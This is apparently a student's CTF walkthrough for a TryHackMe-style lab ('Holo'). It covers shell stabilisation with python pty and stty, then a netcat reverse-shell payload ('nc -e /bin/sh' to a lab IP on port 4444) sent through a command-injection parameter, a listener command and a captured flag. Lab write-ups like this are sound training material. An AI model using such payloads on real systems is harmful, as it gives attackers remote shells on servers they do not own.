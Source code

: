 Now that we have a shell on the box, we want to stabilize our shell. For the most part, stabilizing shells is straightforward by using other utilities like python to help; however, some steps can take longer or change depending on the shell you use. The below instructions will be for bash and ZSH; any other shells or operating systems, you will need to do your research on stabilizing shells within their environment.  

Instructions found throughout this room are inspired by this fantastic blog post, [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/). All credit for the techniques shown goes to ropnop.  

There are several ways to stabilize a shell; we will be focusing on using python to create a pseudo-terminal and modifying stty options. The steps are the same for all target machines, but they may differ depending on the shell or operating system used on your attacking machine.  

To begin, we will create a pseudo-terminal using python. The command can be found below.  

Syntax: `python3 -c 'import pty; pty.spawn("/bin/bash")'`

Once we have a pseudo shell, we can pause the terminal and modify stty options to optimize the terminal. Follow the steps below exactly for bash shells.  

1. `stty raw -echo`

2. `fg`

**Note****:** If you're using ZSH, you **must** combine `stty raw -echo;fg`  onto one line, or else your shell will break  

At this point, you will get your pseudo-terminal back, but you may notice that whatever you type does not show up. For the next step, you will need to type blindly.  

3. `reset`

4. `export SHELL=BASH`

For the next two steps, you will need to use the information you got from step 1. 

5. `export SHELL=BASH`

6. `export TERM=<TERMINAL>`

7. `stty rows <num> columns <cols>`


---

# Your job

## Reverse Shell

- Payload is: `nc+-e+/bin/sh+10.50.74.165+4444`.
	This tells netcat to send /bin/sh command line to your IP and port. Putting this into the RCE, you get:
	`admin.holo.live/dashboard.php?cmd=nc+-e+/bin/sh+10.50.74.165+4444`
- Add the payload to the cmd= parameter on the browser (Better on Burp Suite Repeater).

	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150700382.webp]]

## Listener

- On your attacking machine open a netcat listener.

	`nc -lnvp 4444

- On Repeater click "Send".
	![[Task 14 - Meterpreter session 1 closed. Reason RUH ROH-20240910150823201.webp]]
	Your got a Revers Shell.

## Stabilize shell

In this case you'll have to use `python3`.
`python3 -c 'import pty; pty.spawn("/bin/bash")'`

## Flag on Docker container

- On the Reverse Shell go to `www-data@555e6e40ede0:/var/www$` and run:
	`cat user.txt`

	HOLO{175d7322f8fc53392a417ccde356c3fe}


- Submit the user flag on Task 4, question 1.


**Next step:** [[Task - 15 Docker? I hardly even know her!]]
